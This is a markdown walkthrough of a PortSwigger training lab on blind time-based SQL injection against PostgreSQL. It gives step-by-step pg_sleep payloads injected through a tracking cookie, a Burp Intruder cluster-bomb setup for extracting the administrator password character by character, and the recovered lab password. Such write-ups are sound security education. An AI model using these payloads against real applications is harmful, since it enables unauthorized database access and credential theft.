










# Blind SQL injection with time delays and information retrieval

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

## The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

___

#blind_sql #time_delay #postgres_database

**NOTE:**


`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

step 1

`';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
`'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

```sql
TrackingId=Bz1TiFgyU9JfEPNb'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
when you send request it will take around 10 second then you will get 200 response



step 2
`';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
`'%3bSELECT+CASE+WHEN+(1%3d2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

```sql
TrackingId=Bz1TiFgyU9JfEPNb'%3bSELECT+CASE+WHEN+(1%3d2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
when you send request it will take around 2 second then you will get 200 response



step 3
`';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
`'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
when you send request it will take around 10 second then you will get 200 response



step 4
`';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
when you send request it will take around 10 second then you will get 200 response



step 5

`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```





step 6

`';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`
`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
 TrackingId=tax9NfTM7uDS6d4O'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

since we have two field so attack type set to Cluster bomb
payload 1 => number => 1 to 20
payload 2 => simple list => a-z and 0-9
Resource pool => 1 millisecond



filter result with response time 



`nu0go0r579x1l1rppjnz`

step 7

To solve the use username as `administrator` and password `nu0go0r579x1l1rppjnz`

